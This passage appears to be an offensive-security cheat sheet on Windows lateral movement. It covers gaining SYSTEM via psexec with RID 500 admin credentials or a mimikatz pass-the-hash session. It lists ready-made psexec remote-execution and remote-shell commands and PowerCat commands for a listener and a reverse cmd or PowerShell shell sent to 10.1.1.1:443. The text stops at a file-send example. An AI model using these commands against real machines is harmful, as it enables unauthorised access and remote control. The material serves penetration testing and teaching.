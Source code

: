 If you get the admin/password of a RID 500 user of a machine, it is possible to get a SYSTEM session on that machine by `psexec`. It is also possible to use a `cmd` or `powershell` session launched from `mimikatz` after Pass-The-Hash.

Execute command in remote computer:

```powershell
psexec.exe \\COMPUTER1 -u [USER] -p [PASSWORD] [COMMAND]
```

Execute command ‘netstat -an’ in remote and output result in local computer:

```powershell
psexec.exe \\COMPUTER1 -u [USER] -p [PASSWORD] netstat -an > c:\file.txt
```

Execute command in remote and output result in remote:

```powershell
psexec.exe \\COMPUTER1 -u [USER] -p [PASSWORD] cmd /c netstat -an ^>c:\file.txt
```

Execute program to interact with user:

```powershell
psexec.exe \\COMPUTER1 -u [USER] -p [PASSWORD] -d -i notepad
```

Run remote shell:

```powershell
psexec.exe \\COMPUTER1 -u [USER] -p [PASSWORD] cmd
```

## PowerCat

Import the PowerCat module:

```powershell
. .\powercat.ps1
```

Listen on port 8000 and print the output to the console. Rememeber to add -t (timeout) parameter: number of seconds to wait before giving up on listening or connecting:

```powershell
powercat -l -p 8000 -t 1000
```

Connect to 10.1.1.1 port 443, send a shell, and enable verbosity:

```powershell
powercat -c 10.1.1.1 -p 443 -e cmd -v
```

Connect to 10.1.1.1 port 443, execute a pseudo Powershell session, and enable verbosity:

```powershell
powercat -c 10.1.1.1 -p 443 -ep -v
```

Send a file to 10.1.1.15 port 8000:
